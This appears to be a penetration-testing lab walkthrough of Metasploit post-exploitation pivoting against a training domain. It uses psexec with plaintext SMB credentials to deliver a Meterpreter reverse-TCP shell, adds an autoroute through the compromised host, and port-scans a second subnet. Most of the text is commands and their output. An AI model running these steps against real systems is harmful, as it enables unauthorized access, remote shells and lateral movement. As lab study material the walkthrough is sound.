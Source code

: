 1. **Getting a meterpreter session on windows 10 1 machine using metasploit**
```python
msf6 > use windows/smb/psexec
msf6 exploit(windows/smb/psexec) > set RHOSTS 192.168.1.16
RHOSTS => 192.168.1.16
msf6 exploit(windows/smb/psexec) > set SMBDOMAIN marvel.local
SMBDOMAIN => marvel.local
msf6 exploit(windows/smb/psexec) > set SMBPASS Password1
SMBPASS => Password1
msf6 exploit(windows/smb/psexec) > set SMBUSER fcastle
SMBUSER => fcastle
msf6 exploit(windows/smb/psexec) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/psexec) > set target 2
target => 2
msf6 exploit(windows/smb/psexec) > run
```

![[post_ex_pivot1.png]]

2. Analyzing the route of windows 1 machine and try to identify if there is any machine connected to it but in different network.
![[post_ex_pivot2.png]]

**Using ipconfig** - 
![[post_ex_pivot3.png]]

3. Now, we are going to set up routing through a compromised host when you have already obtained a Meterpreter shell on a target machine within the 10.10.10.0/24 network.
```python
meterpreter > run autoroute -s 10.10.10.0/24
```

4. displaying the current routing table configuration within the Meterpreter shell. It potentially allowing you to access other systems or networks within the specified subnets.
![[post_ex_pivot4.png]]

5. Doing a portscan on the another machine.
```python
msf6 exploit(windows/smb/psexec) > search portscan
msf6 exploit(windows/smb/psexec) > use 5
msf6 auxiliary(scanner/portscan/tcp) > set RHOSTS 10.10.10.5
RHOSTS => 10.10.10.5
msf6 auxiliary(scanner/portscan/tcp) > set PORTS 445
PORTS => 445
msf6 auxiliary(scanner/portscan/tcp) > run

[+] 10.10.10.5:           - 10.10.10.5:445 - TCP OPEN
[*] 10.10.10.5:           - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
